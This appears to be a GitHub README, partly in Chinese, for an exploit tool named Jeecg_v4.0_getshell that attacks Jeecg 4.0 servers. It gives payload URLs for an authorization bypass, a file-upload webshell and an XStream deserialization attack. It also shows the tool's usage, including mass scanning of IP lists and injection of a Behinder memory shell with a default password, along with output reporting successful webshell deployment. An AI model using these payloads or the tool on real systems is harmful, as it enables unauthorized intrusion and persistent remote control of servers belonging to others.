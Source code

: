 #  Jeecg4.0 GetShell

## Bypass_authorized 

### payload

```
http://ip:port/api/../xxxxxx
```

### poc

正常请求

![image-20220825124856083](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/1.png)

未授权请求

![image-20220825124932019](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/2.png)

## File_upload

### payload

```
http://ip:port/iconController.do?saveOrUpdateIcon
```

### poc

![image-20220825125237074](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/3.png)

### webshell_url

```
http://ip:port/plug-in/accordion/images/x.xxx
```

## xstream_Deserialize

### payload

```
http://ip:port/cgformSqlController.do?doMigrateIn
```

### xstream_payload

```
http://x-stream.github.io/CVE-2021-39149.html
```

### poc

![image-20220825130714206](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/4.png)

## Jeecg_v4.0_getshell

```
  Title  :  Jeecg4.0 GetShell
  Author  :  R4gd0ll
  Usage  :  python3 jeecg_v4.0_getshell.py -h

  -h --help    打开帮助
  -u --url     对单个ip进行测试
  -f --file    对文件中的所有ip进行测试
  -m --msmurl  注入冰蝎内存马(默认连接密码reyebond,支持4.0,仅支持单独ip测试)
```

### help

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -h

    -------------------------------------------------------------------------
    Title   :   Jeecg4.0 GetShell
    Author  :   R4gd0ll
    Usage   :   python3 jeecg_v4.0_getshell.py -h

    -h --help     打开帮助
    -u --url      对单个ip进行测试
    -f --file     对文件中的所有ip进行测试
    -m --msmurl   注入冰蝎内存马(默认连接密码reyebond,支持4.0,仅支持单独ip测试)
    -------------------------------------------------------------------------
```

### url

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -u http://127.0.0.1:8080/jeecg

[+] getshell success, webshell地址:http://127.0.0.1:8080/jeecg/plug-in/accordion/images/1.jsp
```

![image-20220825133223937](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/5.png)

### msmurl

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -m http://127.0.0.1:8080/jeecg/

Behinder msmshell success
```

![image-20220825133349259](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/6.png)

### file

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -f 1.txt
[-] getshell fail
[-] getshell fail
[-] 访问出现错误！
[-] 访问出现错误！
[-] getshell fail
[+] getshell success, webshell地址:http://xxxxx/plug-in/accordion/images/1.jsp
[+] getshell success, webshell地址:http://xxxxx//plug-in/accordion/images/1.jsp
```

